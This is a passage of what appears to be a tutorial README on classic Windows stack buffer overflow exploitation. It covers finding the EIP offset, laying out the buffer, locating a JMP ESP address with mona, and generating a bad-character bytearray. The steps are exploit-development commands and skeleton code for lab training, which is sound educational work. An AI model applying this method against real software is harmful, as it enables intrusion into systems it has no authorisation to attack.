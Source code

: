 
### 4 - Discover OFFSET
Discover How Many bytes of the Offset before EIP (yyy)

msf-pattern_offset -q EIPaddress

```bash
msf-pattern_offset -q 32674231
[*] Exact match at offset 965
```
Example: 
offset = "A" * yyy
offset = "A" * 965

### 5 - Make a Stack Fitting
it is time of building the exploit. We use in this example a space of the payload with 400 bytes in the ESP

Example:
```bash
offset = "A" * yyy
eip = "BBBB"
esp = "C" * 400
buffer = offset + eip + esp
```
### 6 - Search JMP ESP

inside immunity debugger

**!mona jmp -r esp -n**
choose a DLL with less protection (SEH, ASLR, etc)

Example:
```bash
offset = "A" * yyy
eip = jmpesp-address
esp = "C" * 400
buffer = offset + eip + esp
```
### 7 - Looking For BADCHARS

inside immunity debugger
```bash
!mona bytearray
!mona bytearray -cpb "\x00\x0a\x0d"
```
put the bytearray in your POC

```python
bytearray = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0b\x0c\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22"
"\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42"
"\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62"
"\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82"
"\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2"
"\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2"
"\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2"
"\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
```